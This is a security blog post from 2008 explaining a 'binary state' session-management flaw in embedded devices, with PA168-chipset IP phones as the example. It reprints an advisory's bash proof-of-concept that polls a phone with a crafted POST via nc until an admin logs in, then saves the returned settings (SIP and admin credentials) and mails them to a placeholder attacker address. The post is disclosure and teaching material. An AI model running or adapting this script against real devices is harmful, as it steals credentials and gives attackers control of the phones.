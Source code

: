 ```yaml
---
title: Holes in Embedded Devices - Binary state session management
author: adrian-pastor
date: Tue, 29 Jan 2008 09:52:22 GMT
template: post.jade
---
```


This type of vulnerability is similar to IP address-based session management holes which has been discussed in my [previous post](/blog/holes-in-embedded-devices-ip-based-session-management). It is similar in the sense that the web browser of the admin user who is currently logged into the vulnerable device doesn't send any auth data such as session IDs or passwords. However, this vulnerability is more serious as illustrated by the algorithm implemented by the session management mechanism of the vulnerable device:

    if (submitted username and submitted password) == (credentials on device config)
    then
    	do activate admin session until session times out
    

    The implications are fatal: the device blindly trusts administrative HTTP requests, while the administrative session is regarded as active. In other words, if the attacker submitted an administrative request to the target device while an admin user was logged in (admin session would be active), the device would happily accept such request as it has no means to differentiate between the requests coming from the legitimate admin and those coming from the attacker!

    In this case, the attacker doesn't need to share the same source IP address with the legitimate admin user, but rather the bad guy can launch an automated attack like the one illustrated in my previous post IP address-based session management from any source IP address. The only requirement is that the submitted HTTP request is well-crafted so it looks exactly like a legitimate request.

    A real example includes IP phones from several brands that are based on the PA168 chipset. Several popular vendors in Asia such as ATCOM and SOYO ship firmwares such as version 1.42 and 1.54 that is susceptible to this vulnerability. Since the attacker can now send the malicious HTTP request from any IP address, these IP phones could be attacked remotely, provided that their web interface was Internet-facing.

    The following proof-of-concept script was published with ProCheckUp [PR06-14](http://www.procheckup.com/Vulner_PR0614.php) advisory. Such script repeatedly submits a request to the target IP phone which returns the full configuration settings as soon as an admin user logs into the web interface of the target phone. The returned configuration settings include sensitive data such as SIP gateway, SIP credentials and the credentials required to manage the IP phone:

    #!/bin/bash

    host="192.168.10.1";
    attackers_email="attacker@evil-domain.foo"
    req="POST /g HTTP/1.0\r\nContent-length: 13\r\n\r\nback=++Back++\r\n\r\n";

    while true
    do
        res=`echo -en $req | nc -nv $host 80`;
        if echo $res | grep superpassword # if this gets returned, then we got the settings page with all SIP account and IP phone creds
        then
            echo "GOT IT!"
            echo $res > "admin-settings-page"
            echo $res | mail $attackers_email -s "PA168 IP Phone admin's settings page"
            exit 1
        else
            echo "bad luck"
        fi
        sleep 5
    done
